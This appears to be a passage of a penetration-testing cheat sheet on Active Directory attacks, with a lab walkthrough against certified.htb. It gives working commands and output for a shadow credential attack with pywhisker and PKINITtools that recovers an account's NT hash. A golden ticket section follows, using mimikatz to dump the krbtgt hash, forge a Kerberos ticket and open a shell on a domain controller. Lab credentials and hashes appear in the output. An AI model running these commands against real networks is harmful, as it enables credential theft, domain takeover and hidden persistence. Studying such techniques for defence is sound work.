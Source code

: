 ```
adconnect.ps1
Get-ADConnectPassword
```
#### Shadow Credential Attack
```
python3 pywhisker.py -d "certified.htb" -u "judith.mader" -p "judith09" --target "management_svc" --action "add"
[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 05521294-1c22-cd5e-9836-5d22c2074ba7
[*] Updating the msDS-KeyCredentialLink attribute of management_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: g17jPEmM.pfx
[*] Must be used with password: TBwxEdb3kfdFrnTrYLb7
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools

python gettgtpkinit.py -cert-pfx t0cZeyin.pfx -pfx-pass Ryk4iT9K3g7uEgqSfFG1 certified.htb/management_svc management_svc.ccache
2025-02-05 10:13:39,724 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-02-05 10:13:39,732 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT


2025-02-05 10:14:36,995 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-02-05 10:14:36,996 minikerberos INFO     1dde55cc8c3ee35511712e96382fd98c8b8c096506601a57901a9e3949763db6
INFO:minikerberos:1dde55cc8c3ee35511712e96382fd98c8b8c096506601a57901a9e3949763db6
2025-02-05 10:14:36,997 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file

export KRB5CCNAME=management_svc.ccache
└─$ python3 ./PKINITtools/getnthash.py -key 1dde55cc8c3ee35511712e96382fd98c8b8c096506601a57901a9e3949763db6 certified.htb/management_svc
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
a091c1832bcdd4677c28b5a6a1295584
```

### Persistence
#### Golden Tickets(only if we can get password hash of a domain user account called krbtgt)
>The golden ticket will require us to have access to a Domain Admin's group account or to have compromised the domain controller itself to work as a persistence method
```
privilege::debug
lsadump::lsa /patch(get password hash)
kerberos::purge
kerberos::golden /user:any_exist_domain_user /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668(domain SID part,from lsadump::lsa /patch) /krbtgt:75b60230a2394a812000dbfad8415965(from lsadump::lsa /patch) /ptt
misc::cmd(launch a new command prompt)
psexec.exe \\dc01 cmd.exe

# To generate the TGT with NTLM
```